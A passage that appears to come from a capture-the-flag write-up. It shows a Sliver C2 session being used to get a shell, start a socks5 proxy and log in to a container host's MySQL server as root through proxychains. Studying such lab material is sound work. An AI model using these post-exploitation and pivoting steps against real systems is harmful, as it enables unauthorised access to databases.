![bulidadm/dev](gitea-curl.png)

```
sliver > use fff759cb-5de0-49bd-990b-aec6b0a1db35
```

```
sliver (LAZY_POLO) > shell
```

I managed to gain access to the shell and get the contents of the first flag

![shell](shell1.png)

![shell](shell2.png)

Everything indicates that we are inside the container :/

## MySQL server

```
3306/tcp filtered mysql
```
Using a proxy, we are able to log in to the MySQL server as root

### Sliver socks5

```
sliver (LAZY_POLO) > socks5 start
```
> remember to properly configure proxychains!

```sh
proxychains4 mysql -u root -h 172.18.0.1 --skip-ssl
```
